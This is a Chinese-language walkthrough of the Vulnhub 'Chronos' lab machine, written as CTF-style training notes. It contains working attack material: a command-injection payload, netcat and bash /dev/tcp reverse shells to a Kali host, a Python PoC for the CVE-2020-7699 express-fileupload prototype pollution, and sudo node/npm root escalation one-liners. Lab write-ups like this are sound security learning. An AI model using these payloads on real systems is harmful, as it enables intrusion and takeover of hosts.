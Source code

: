```yaml
---
title: Chapter3_Medium_Chronos
categories:
- Network_Security
- Vulnhub
- Chapter3
tags:
- Network_Security
- Vulnhub
date: 2024-01-23 15:52:52
---
```


# Chronos 靶场记录

## 1. 过程记录（粗略）

### 1.1 服务发现和外围打点

1. 主机发现，使用新工具：netdiscover，也是基于 arp 的扫描工具：
    `sudo netdiscover -r 网段/实际掩码 - 8`

2. 端口扫描：
    `nmap -Pn -sV 192.168.0.101 -p 1-10000`
    服务如下：
    ![image-20240116113758731](image-20240116113758731.png)

3. 除了目录扫描，还可以查看一下网页源代码，这里发现一个加密脚本：
    ![image-20240116114455084](image-20240116114455084.png)

4. 使用 cyberchef 对代码进行美化，cyberchef 本身也有编码转化等功能：
    ![image-20240116115232477](image-20240116115232477.png)

5. 根据 URL 猜测，试着访问：
    `http://192.168.0.101:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL`
    发现权限不够。

6. 通过修改 f12，将域名换成 IP，出现 CORS 跨域错误。因此这里需要修改 host 文件，让这个域名指向目标 IP。
    `sudo vim /etc/hosts`

7. 再次访问，页面更新，但是没有啥交互窗口，因此抓个包看看。
    根据 HTTP 历史，总共有三个包，着重看返回日期的包：
    ![image-20240116141132284](image-20240116141132284.png)
    经过测试发现，当 User-Agent 为 Chronos 时，会返回时间，否则提示 Permission Denied。

8. 其次，尝试猜测 format 的含义，修改内容后，服务端无法返回时间。尝试解码，像是 Base 系列编码，挨个试试，结果是 Base 58 编码：
    ![image-20240116141624700](image-20240116141624700.png)
    这里用的是 CaptfEncoder V2，用 CyberChef 的 magic 让它自动分析编码也省事。

9. 结果是 Linux date 命令的参数，这确实是想不到。测试：
    `9bEW4cq4qengPvFGtzJXEAs1sGpKzYpYvUjwvUngwAmfrVsMwAERK9ox - '+Today is %A, %B %d, %Y %H:%M:%S.' && ls`
    结果返回出来了，说明存在 RCE。

### 1.2 反弹 Shell 与信息收集

1. 查看靶机的 /bin，发现其有 nc，因此用 NC 串联来建立 Shell：
    `7ihptVs1vQRPedsgE9FnpNTWUwH5Ec9aGfvLfeuGgtc21faujqYQsojc89LSM4jDjPBprmKfkco7HEoZxxwPeBjAkbDAe6XXfdkc5oiTjwrn1tJc2pyJj2Y7k6PDpCBXtwCfBCkrap - '+Today is %A, %B %d, %Y %H:%M:%S.' | /bin/nc 192.168.0.2 4444 | /bin/bash | /bin/nc 192.168.0.2 5555`

2. 拿到 Shell 经过一段信息收集后，发现 imera 用户有个 user.txt 文件，但是没有权限查看，因此需要提权。

### 1.3 初步提权

1. 先查看内核，`'map_write() CAP_SYS_ADMIN' Local Privilege Escalation` 需要 Capabilities 权限，网上查找了一下，发现需要存在 Capabilities 的 CAP_SYS_ADMIN 权限的文件，通过 `getcap -r / 2>/dev/null` 找了一下，发现没有。

2. 内核没法提权，就从 suid 上试试，查找了一下，常见的 suid 程序也基本没有。
     再试试 sudo -l，结果也不行。

3. 回到网站本身，经过信息收集后，发现其有个 chronos-v2。查看后端的 package.json，发现它的 express-fileupload 版本是 1.1.7，恰好比 CVE-2020-7699 Express 模块注入漏洞的版本低，符合利用版本。

4. 再分析他的服务端的代码 server.js，他的服务端开启的服务只在 localhost:8080 端口，外部无法访问。

5. 从 CVE-2020-7699 Express 入手，百度 Google 去找 PoC，最终详情页在：

     > https://github.com/richardgirges/express-fileupload/issues/236
     >
     > https://blog.p6.is/Real-World-JS-1/

6. PoC:
     ```python
     import requests
      
     cmd = 'bash -c "bash -i &> /dev/tcp/192.168.0.2/8888（Kali） 0>&1"'
      
     # pollute
     requests.post('http://127.0.0.1:8080（存在漏洞的服务）', files = {'__proto__.outputFunctionName': (
         None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})
      
     # execute command
     requests.get('http://127.0.0.1:8080（存在漏洞的服务）')
     ```

     将该 PoC 在靶机上用 Python3 执行，即可获得 Shell。

7. 此时获得的权限是 imera 的 shell，这时再查看 user.txt 文件。
     拿到第一个 flag：byBjaHJvbm9zIHBlcm5hZWkgZmlsZSBtb3UK

### 1.4 再次提权

1. 利用 sudo -l，发现可以提权：
     ![image-20240116163306479](image-20240116163306479.png)
     可以使用 sudo 来执行 npm 和 node 命令。

2. 使用 node 进行提权：
     `sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'`

     > https://haiclover.github.io/gtfobins/node/

3. 查看 root 的 txt 文件，第二个 flag：
     YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK

4. npm 的提权方式：
     ```bash
     TF=$(mktemp -d)
     echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
     sudo npm -C $TF --unsafe-perm i
     ```

     其他有关命令的提权命令：

     > https://ihsansencan.github.io/privilege-escalation/linux/binaries/

5. LXD 提权：

    > https://www.cnblogs.com/zlgxzswjy/p/14790554.html
    >
    > https://www.cnblogs.com/jason-huawen/p/17016263.html

## 2. 知识点总结

1. 新的主机发现工具 - netdiscover
2. Cyberchef 的使用
3. date 命令参数，这确实想不到，发散思维是吧（
4. CVE-2020-7699 Express 模块注入漏洞
5. node 、lxd 和 npm 提权。
6. 提权方向：
    1. 内核
    2. suid
    3. sudo 与具体命令，具体应用结合
    4. 特殊应用与用户组
